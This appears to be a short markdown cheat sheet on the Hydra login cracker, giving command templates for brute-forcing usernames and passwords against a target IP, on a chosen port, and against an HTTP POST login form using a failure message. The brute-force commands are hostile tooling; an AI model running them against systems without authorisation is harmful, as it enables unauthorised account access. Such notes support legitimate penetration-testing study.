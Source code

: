 # Hydra

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely.

*basic syntax*
```
hydra -l username -P /path/to/wordlist TargetIP [-t 4] protocol
```

*cracking User & Password*
```
hydra -l path/to/userlist -P /path/to/wordlist TargetIP [-t 4] protocol
```

*specify different port*
```
hydra -s PORT -l <username> -P </path/to/wordlist> TargetIP [-t 4] protocol
```

*bruteforce a POST login form*
```
hydra -l <username> -P <wordlist> TargetIP http-post-form "/:username=^USER^&password=^PASS^:<"+"=incorrect">
```

+ we need to insert something that let hydra know that the login was unsuccessful such as "username or password are incorrect". We find this statement by simply insert incorrect parameter and look at the response
